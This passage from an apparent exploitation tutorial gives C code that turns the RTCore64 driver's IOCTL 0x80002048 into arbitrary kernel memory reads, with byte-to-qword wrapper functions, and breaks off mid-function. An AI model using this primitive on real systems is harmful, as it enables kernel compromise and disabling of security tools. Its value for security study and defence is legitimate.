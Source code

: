```c
	// Send the IRP packet
	if (!DeviceIoControl(
			hDevice, 
			RTC64_IOCTL_MEMORY_READ, // the 0x80002048 IOCTL code
			&memory_read,            // pointer to input buffer
			sizeof(memory_read),     // size of input buffer
			&memory_read,            // output is recieved in the same buffer
			sizeof(memory_read), 
			NULL, 
			NULL)) 
		{
		PRINT_ERROR(L"[-] Memory Read IRP Failed!\r\n");
		return FALSE;
	}

	// The driver should've filled the Value in the structure with the data which was read
	*Value = memory_read.Value;

	return TRUE;
}
```
Now, let's define several wrapper functions that use the primitive function to read data of different sizes, such as byte, word, dword, qword, and pointer. We'll use RTCoreRead32 as the base for the other functions, making it easier to extract the relevant byte for functions like RTCoreRead8 by performing an AND operation:  

```c
BOOL RTCoreRead32(ULONG_PTR Address, PDWORD Value) {
	return RTCoreReadMemory(Address, sizeof(*Value), Value);
}

BOOL RTCoreRead8(ULONG_PTR Address, PBYTE Value) {
	DWORD dwValue;

	if (!RTCoreRead32(Address, &dwValue)) {
		return FALSE;
	}
	// get the least significat byte
	*Value = dwValue & 0xff;

	return TRUE;
}

BOOL RTCoreRead16(ULONG_PTR Address, PWORD Value) {
	DWORD dwValue;

	if (!RTCoreRead32(Address, &dwValue)) {
		return FALSE;
	}
	// get the least significat 2 bytes
	*Value = dwValue & 0xffff;

	return TRUE;
}

BOOL RTCoreRead64(ULONG_PTR Address, PDWORD64 Value) {
	DWORD dwHigh, dwLow;

	// read two dwords
	// first dword starting from target address (the low part of the 64bit value)
	// second dword starting 4 bytes after the first dword (the high part of the 64bit value)
	if (!RTCoreRead32(Address, &dwLow) || !RTCoreRead32(Address + 4, &dwHigh)) {
		return FALSE;
	}
```